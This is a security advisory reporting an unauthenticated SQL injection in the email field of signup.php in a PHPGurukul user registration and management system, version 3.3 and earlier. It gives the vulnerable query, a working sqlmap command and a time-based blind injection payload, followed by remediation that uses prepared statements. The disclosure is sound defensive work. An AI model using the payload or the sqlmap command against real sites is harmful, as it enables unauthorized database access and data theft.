

# 🐞 Unauthenticated SQL Injection via `email` POST Parameter in `signup.php` in User Registration & Login and User Management System With Admin Panel ≤ v3.3


👨‍💻 **BUG Author:**
**4m3rr0r**

---

📦 **Product Information:**

* **Product Name:** User Registration & Login and User Management System With Admin Panel
* **Vendor Homepage:** [https://phpgurukul.com](https://phpgurukul.com)
* **Download Link:** [https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)
* **Affected Version:** `<= 3.3`
---

🛠 **Vulnerability Details**

### 🧨 Vulnerability Type

* **SQL Injection (CWE-89)**

---

### 🧬 Root Cause

The application directly embeds unsanitized user input into an SQL query during registration in `signup.php`, specifically via the `email` POST parameter, without using prepared statements or escaping.

```php
$sql=mysqli_query($con,"select id from users where email='$email'");
```

This allows attackers to inject arbitrary SQL code.

---

### ⚠️ Impact

* Extract database contents
* Bypass registration logic
* Enumerate users
* Perform data manipulation (INSERT/UPDATE/DELETE)
* Potential for remote code execution if stacked queries are enabled

---

### 📋 Description

A **SQL Injection** vulnerability exists in `signup.php` of **User Registration & Login and User Management System With Admin Panel <= v3.3**. The `email` parameter of the POST request is vulnerable to **Boolean-based Blind** and **Time-based Blind SQL Injection**.

No authentication is required to exploit the flaw, making it a critical risk for public-facing applications.

---

### 🔬 Proof of Concept

#### ✅ sqlmap Command:

```bash
sqlmap -u "http://192.168.16.109/loginsystem/signup.php" \
--data="fname=test&lname=test&email=test*&password=Test123&confirmpassword=Test123&contact=1234567890&submit=Submit" \
--level=5 --risk=3 --batch --technique=BEUSTQ
```
#### 💥 Injected Payload (Time-based):

```http
email=test' AND (SELECT 2951 FROM (SELECT(SLEEP(5)))kzln)-- 
```



---

### 🛡 Suggested Remediation

Use **prepared statements** (`mysqli_prepare` or `PDO`) and parameterized queries instead of directly embedding user input in SQL statements.

**Example:**

```php
$stmt = $con->prepare("SELECT id FROM users WHERE email = ?");
$stmt->bind_param("s", $email);
$stmt->execute();
```

---

### 🔐 Security Recommendations

* Hash all user passwords using `password_hash()`, never store plaintext
* Sanitize and validate all user inputs (server-side)
* Use Web Application Firewalls (WAF)
* Apply the principle of least privilege for DB users
* Regularly audit code for security issues

---

### 📚 References

* [SQL Injection - OWASP](https://owasp.org/www-community/attacks/SQL_Injection)

